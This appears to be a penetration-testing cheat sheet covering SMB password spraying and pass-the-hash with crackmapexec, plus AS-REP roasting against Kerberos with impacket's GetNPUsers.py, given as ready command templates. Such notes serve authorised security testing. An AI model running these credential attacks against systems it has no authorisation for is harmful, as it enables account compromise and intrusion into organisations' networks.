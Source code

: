## Miscellaneous Attacks In No Particular Order

**SMB Password Spraying**

When You have a working password and a list of userames, or a working username and a list of passwords, ``crackmapexec`` makes testing your credentials trivial.

```bash
crackmapexec smb <IP> -u <USERLIST> -p '<PASS>' --continue-on-success
crackmapexec smb <IP> -u '<USER>' -p <PASSLIST> --continue-on-success
# Authenticate with an NT hash
crackmapexec smb <IP> -u '<USER>'-H '<NTML_HASH>' --continue-on-success 
```

**AS-REP Roasting**

AS-REP roasting is a technique that allows retrieving password hashes for users that have don't require Kerberos preauthentication. ``impacket`` has a utility that makes this trivial for us. I could only do a bad job explaining this attack, so I've linked much better resources below. It is important to note that this is not found often, if at all, in real world engagements.

```bash
python3 GetNPUsers.py <DOMAIN>/ -dc-ip <IP> -no-pass -usersfile <USERLIST>
```

- [Roasting AS-REPS](https://www.harmj0y.net/blog/activedirectory/roasting-as-reps/)
- [AS-REP Roasting](https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/as-rep-roasting-using-rubeus-and-hashcat)
